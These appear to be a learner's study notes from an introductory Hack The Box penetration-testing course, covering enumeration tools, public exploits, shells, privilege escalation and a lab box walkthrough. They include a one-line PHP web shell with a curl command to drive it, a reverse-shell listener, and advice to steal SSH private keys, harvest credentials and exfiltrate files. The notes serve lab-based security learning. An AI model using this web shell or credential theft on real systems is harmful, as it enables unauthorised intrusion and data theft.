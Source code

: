 ### Introduction
- Infosec is huge.
- Tons of specializations:
	- Network and infrastructure security
	- Application security
	- Security testing
	- Systems auditing
	- Business continuity planning
	- Digital forensics
	- Incident detection and response
	- ...
- CIA Triad
- Risk management process:
	- Identify the risk (where is it)
	- Analyze the risk (what is it)
	- Evaluate the risk (how much is it)
	- Dealing with risk (choose mitigate, accept, etc.)
	- Monitoring risk (keep track of it)
- Red team and blue team
- Penetration testers helps to identify risks.
### Setup
- Install an OS (I'll stay local, thank you)
- Use logical structure in your notes.
- Connect with the VPN.
### Pentesting Basics
- Common terms:
	- Shell: commands to system calls. Reverse shells use the attack box as a server, a bind shell uses the target box as a server, a web shell works on the website. - A number assigned to a service that is open to the network.
	- Web server: service that hosts a web site/service
- Basic tools:
	- SSH
	- Netcat, `netcat`, `nc`
	- Terminal multiplexers, such as `tmux` (meh)
	- VIM MENTIONED
- Service scanning
	- It's `nmap` time.
	- We wanna hit the generic `nmap -A -sV -sC -p- [IP/IP RANGE]`
	- `nmap -A -p- [IP/IP RANGE]`
		- This just does everything
	- To run specific scripts:
		- `locate scripts/citrix`
		- `nmap --script [SCRIPT NAME] -p[PORTS] [IP/IP RANGE]`
	- Quick netcat banner grab: `nc -nv [IP] [PORT]`
	- Quick lil' FTP:
		- `ftp -p [IP]`
		- Login as `anonymous`
	- A good script for `nmap` and SMB: `nmap --script smb-os-discovery.nse -p[PORT] [IP/IP RANGE]`
		- `smbclient` to attempt a connection
		- `smbclient -N -L \\\\[IP ADDR]` to list shares
		- `smbclient -U [USER NAME] \\\\[IP ADDR]\\[SHARE NAME]` to attempt a login on the share
	- Enumerate SNMP with a lil' 
		- `snmpwalk -v 2c -c public [IP] [bunch of numbers]`
		- `snmpwalk -v 2c -c private [IP]`
		- `onesixtyone -c [WORDLIST] [IP]`
- Web Enumeration
	- Gobuster! This is generally preferred, it's faster than `ffuf` and `dirbuster`. Go ahead and hit them with that:
		- `gobuster dir -u http://[TARGET]/ -w [WORDLIST PATH]`, they recommend `Discovery/Web-Content/common.txt` from `seclists`.
		- Add a DNS server (such as `1.1.1.1`) to `/etc/resolve.conf`. After that, hit them with: `gobuster dns --do [ROOT DOMAIN] -w [WORDLIST PATH]`. They recommend `Discovery/DNS/namelist.txt` from `seclists`.
	- Quick banner grab:
		- `curl -IL [URL]`
	- Get a ton of web service information:
		- `whatweb [IP]`
		- VERY USEFUL
	- Check the SSL/TLS certificates.
	- You can always find a little something useful in `robots.txt`.
	- Always go through the source code as well.
- Public Exploits
	- Learn to Google!
	- Search exploitdb with `searchsploit`
	- Metasploit primer:
		- `msfconsole`
		- `search exploit [name]`
	- Every version you see everywhere needs to be researched.
- Shells!
	- Who doesn't love to pop a shell?
	- Reverse shells are great!
		- Most common type we'll be using.
		- Listen for it with `nc -lvnp [PORT]`
			- `-l` listen
			- `-v` verbose
			- `-n` disable DNS resolution to speed up the connection
			- `-p` specify the port
		- Bypasses firewalls because they need to allow arbitrary outbound ports.
		- All sorts of reverse shell one-liners, just save a cheat-sheet.
		- Payload All The Things is supposed to be great.
	- Bind shells are great!
		- This is a typical shell rather than a reverse shell.
	- Web shells are great!
		- And as simple as `<?php system($_REQUEST["cmd"]); ?>`
			- For ones that aren't interactive like this, it's easiest to just do: `curl http://[IP]:[PORT]/path/to/shell.php?cmd=[COMMAND]`
		- Just upload it to the site and profit.
- Privilege Escalation
	- We want to become `root`. We want to become `administrator/SYSTEM`.
	- There's checklists for that! Check out:
		- HackTricks
		- PayloadAllTheThings
	- Enumeration scripts!
		- We wanna hit `LinEnum` and `linuxprivchecker` for our boy Tux
		- We wanna hit `Seatbelt` and `JAWS` for not our boy Gates
		- A very powerful tool is the Privilege Escalation Awesome Scripts Suite (PEASS), which has some great scripts for both operating systems.
	- Kernel exploits are always legit. Gotta love some dirty COW (love that copy on write).
	- Vulnerable software (your boy is running things with the stickiest icky bit)
	- User privileges
		- Do you have `sudo`?
			- Use `sudo -l` to get your permissions
			- If you have access to only some binaries with `sudo`, use GTFOBins to see a list of commands and how to exploit them. Windows has LOLBAS. 
		- Do you have `SUID`?
		- Do you have Windows Token Privs?
	- Scheduled tasks are always great. If you have write permissions to either a script that they run or the actual config file, check out `/etc/crontab`, `/etc/cron.d`, and `/var/spool/cron/crontabs/root`.
	- Exposed credentials can always be found in config files, logs, `bash_history`, and `PSReadLine`.
	- If you can find an SSH root key, you're golden. If you can write an SSH key to `/root/.ssh/`, you're golden.
		- Steal the private key, add it to your `~/.ssh/id_rsa` locally. Then just SSH as the user.
- Transferring files
	- Important to actually be able to exfiltrate data.
	- The classic option is `python3 -m http.server [PORT]` on the victim, then `wget [IP]:[PORT]/path/to/file` on the attack box.
	- SCP is also a great option if you have SSH access.
	- An interesting option is to just base64 encode a file, then copy and paste it.
	- Validate file transfers with checksums and the `file` command.
### Getting Started with HTB
- Starting out
	- There's guided and exploratory learning. HTB Academy is guided, the main platform is exploratory.
	- Do a bunch of stuff, never stop learning. Get good and consistent with things before moving on.
- Navigating HTB
	- My profile has some stats on it
	- There's rankings of users, teams universities, countries, and VIP members
	- There's different "tracks" that go through sets of machines with similar focus
	- Machines are just individual boxes
		- Active machines are free
		- Retired machines are VIP only
	- A fortress is a vulnerable lab created by an external company and hosted on HTB. There are several flags that can be found and submitted. Requires a rank of `Hacker`.
	- Endgames are labs containing several machines within a single network. They reflect real-world situations that you'll encounter during a penetration test for a company. These require a rank of `Guru`.
	- Pro labs are the biggest lab experience. They simulate real-world enterprise infrastructure. There's five pro labs, each one with different difficulty levels. They require a different subscription plan, but after completing each one you get a certificate of completion.
	- Battlegrounds are real-time games of strategy and hacking. You compete in teams of 4 or 2. It can be either attack/defense or king of the hill. It looks pretty neat.
### Attacking Your First Box
- Going against Nibbles. I shall attempt this box myself, and then compare my results to the walkthrough.
- Apparently this isn't an option for me, I'd need to pay for premium. Scam.
- I'll just do an active machine with an easy rating.
- I ran through [[Artificial]], which was a great success! I can still take notes on Nibbles, though.
- Scanning
	- It can be useful to check for open ports first, and then do deeper port scanning afterwards. This is good for more sneaky testing.
	- `nmap --script=http-enum` is great for web application information. We can also use `whatweb` for some similar information. More scans is always useful.
	- It's worth noting that `whatweb` needs to be used for each page/directory you find!
	- Tools like [CeWL](https://github.com/digininja/CeWL) can be used to create wordlists by crawling websites, which is pretty neat.
- Foothold stuff
	- We figure out that we have credentials on the page `admin:nibbles`
	- A PHP reverse shell can be uploaded to the "My image" plugin
	- A great python one-liner for a shell upgrade is `python -c 'import pty; pty.spawn("/bin/bash")'`
	- Classic `sudo -l` to list out what you're able to do. Arbitrary script that you even have write access to, perfect.
### Problem Solving
- Use the VPN like not an idiot
- Ask questions properly
- Answer questions properly
### What's Next?
- Before moving to the next section, I am going to:
	- Root another easy box
	- Complete an easy challenge